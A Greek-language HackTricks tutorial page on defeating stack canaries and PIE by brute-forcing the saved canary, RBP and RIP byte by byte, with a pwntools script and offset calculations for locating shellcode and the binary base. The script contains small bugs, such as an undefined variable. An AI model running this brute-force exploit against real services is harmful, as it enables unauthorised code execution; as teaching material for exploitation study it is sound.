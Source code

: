 # BF Διευθύνσεις στη Στοίβα

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Αν αντιμετωπίζετε ένα δυαδικό αρχείο που προστατεύεται από ένα canary και PIE (Position Independent Executable) πιθανότατα χρειάζεστε να βρείτε έναν τρόπο να τα παρακάμψετε.**

![](<../../../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
Σημειώστε ότι **`checksec`** μπορεί να μην βρει ότι ένα δυαδικό αρχείο προστατεύεται από ένα canary αν αυτό έχει στατικά μεταγλωττιστεί και δεν είναι ικανό να εντοπίσει τη λειτουργία.\
Ωστόσο, μπορείτε να το παρατηρήσετε χειροκίνητα αν βρείτε ότι μια τιμή αποθηκεύεται στη στοίβα στην αρχή μιας κλήσης λειτουργίας και αυτή η τιμή ελέγχεται πριν την έξοδο.
{% endhint %}

## Διευθύνσεις Brute-Force

Για να παρακάμψετε το PIE χρειάζεστε να **διαρρεύσετε κάποια διεύθυνση**. Και αν το δυαδικό αρχείο δεν διαρρέει καμία διεύθυνση, το καλύτερο που μπορείτε να κάνετε είναι να **brute-force το RBP και το RIP που αποθηκεύονται στη στοίβα** στη ευάλωτη λειτουργία.\
Για παράδειγμα, αν ένα δυαδικό αρχείο προστατεύεται χρησιμοποιώντας τόσο ένα **canary** όσο και **PIE**, μπορείτε να ξεκινήσετε να brute-force το canary, στη συνέχεια τα **επόμενα** 8 Bytes (x64) θα είναι το αποθηκευμένο **RBP** και τα **επόμενα** 8 Bytes θα είναι το αποθηκευμένο **RIP.**

{% hint style="success" %}
Υποτίθεται ότι η διεύθυνση επιστροφής μέσα στη στοίβα ανήκει στον κύριο κώδικα του δυαδικού αρχείου, ο οποίος, αν η ευπάθεια βρίσκεται στον κώδικα του δυαδικού αρχείου, θα είναι συνήθως η περίπτωση.
{% endhint %}

Για να brute-force το RBP και το RIP από το δυαδικό αρχείο μπορείτε να καταλάβετε ότι ένα έγκυρο μαντεμένο byte είναι σωστό αν το πρόγραμμα εκτυπώνει κάτι ή απλά δεν καταρρέει. Η **ίδια λειτουργία** που παρέχεται για brute-forcing το canary μπορεί να χρησιμοποιηθεί για brute-force το RBP και το RIP:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
Το τελευταίο πράγμα που χρειάζεστε για να νικήσετε το PIE είναι να υπολογίσετε **χρήσιμες διευθύνσεις από τις διαρροές** διευθύνσεων: το **RBP** και το **RIP**.

Από το **RBP** μπορείτε να υπολογίσετε **πού γράφετε το shell σας στη στοίβα**. Αυτό μπορεί να είναι πολύ χρήσιμο για να γνωρίζετε πού θα γράψετε τη συμβολοσειρά _"/bin/sh\x00"_ μέσα στη στοίβα. Για να υπολογίσετε την απόσταση μεταξύ του διαρρεύσαντος RBP και του shellcode σας, μπορείτε απλώς να βάλετε ένα **breakpoint μετά τη διαρροή του RBP** και να ελέγξετε **πού βρίσκεται το shellcode σας**, στη συνέχεια, μπορείτε να υπολογίσετε την απόσταση μεταξύ του shellcode και του RBP:
```python
INI_SHELLCODE = RBP - 1152
```
Από το **RIP** μπορείτε να υπολογίσετε τη **βάση της διεύθυνσης του εκτελέσιμου PIE**, η οποία είναι αυτό που θα χρειαστείτε για να δημιουργήσετε μια **έγκυρη αλυσίδα ROP**.\
Για να υπολογίσετε τη βάση της διεύθυνσης, απλά εκτελέστε `objdump -d vunbinary` και ελέγξτε τις τελευταίες διευθύνσεις αποσυναρμολόγησης:

![](<../../../../.gitbook/assets/image (145).png>)

Σε αυτό το παράδειγμα μπορείτε να δείτε ότι χρειάζονται μόνο **1 Byte και μισό** για να εντοπίσετε όλο τον κώδικα, τότε, η βάση της διεύθυνσης σε αυτή την περίπτωση θα είναι το **leaked RIP αλλά τελειώνοντας σε "000"**. Για παράδειγμα, αν διαρρεύσατε `0x562002970ecf`, η βάση της διεύθυνσης είναι `0x562002970000`
```python
elf.address = RIP - (RIP & 0xfff)
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
